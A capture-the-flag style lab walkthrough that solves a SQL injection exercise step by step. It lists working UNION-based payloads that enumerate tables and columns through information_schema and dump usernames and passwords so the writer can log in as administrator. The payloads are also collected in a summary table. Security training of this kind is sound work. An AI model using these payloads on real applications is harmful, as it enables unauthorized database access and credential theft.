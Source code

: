 # 💉 Lab 5: Listing the Database Contents on Non-Oracle DB

## 🎯 Objective

This lab requires us to **dump credentials (like username & password)** and login as administrator.  
We don’t know the table or column names, so we must **discover them using SQL Injection techniques**.

---

## 🛠 Step-by-Step Guide

### 🔹 Step 1: Intercept a Request Using Burp Suite

1. Open the lab
2. Intercept a request using Burp Suite (e.g., category filter like `Lifestyle`)
3. Send the request to **Repeater**

Example:

GET /filter?category=Lifestyle HTTP/2



Inject SQL payloads inside the `category` parameter.

---

### 🔹 Step 2: Find the Number of Columns

Use this payload to find column count:

' ORDER BY 1--
' ORDER BY 2--



✅ We find there are **2 columns**.

---

### 🧠 What is `information_schema`?

> `information_schema` is a **special system database** present in most SQL engines like MySQL and PostgreSQL.

It stores **metadata about all other databases**, such as:
- Table names
- Column names
- Data types
- Relationships

It **does NOT store the actual data**, like user passwords — but helps us locate **where data is stored**.

---

### 🧪 Step 3: Find All Table Names

We use the following SQLi payload:

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

### 🧪 Step 4: Find Column Names in That Table

Once we know the table name (e.g., `users_xalvwhn`), we use:
```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_xalvwhn'--
```

This prints all column names like:
`username, password, email, etc.`
We only need username and password.

### 🧪 Step 5: Dump Username & Password from Table
Now we can run:
`' UNION SELECT username, password FROM users_xalvwhn--`

💡 Replace column names based on what you found.

✅ The lab will print the username and password values.


## 🔐 Final Step: Login as Administrator

1. Copy the credentials of administrator

2. Go to the login page

3. Enter the credentials

4. 🎉 Lab solved!

## 🧠 Summary of SQLi Payloads Used

| Purpose               | SQL Injection Payload                                                                                 |
| --------------------- | ----------------------------------------------------------------------------------------------------- |
| Discover table names  | `' UNION SELECT table_name, NULL FROM information_schema.tables--`                                    |
| Discover column names | `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_xalvwhn'--` |
| Dump credentials      | `' UNION SELECT username, password FROM users_xalvwhn--`                                              |


## ✅ Lab Solved!

Once you extract the `administrator` login credentials and successfully log in — the lab is considered complete.

ㅤ🔐 Tip: Always URL-encode your payload if inserting into a parameter.
Use Burp Suite → Right click → Encode → URL → Send.










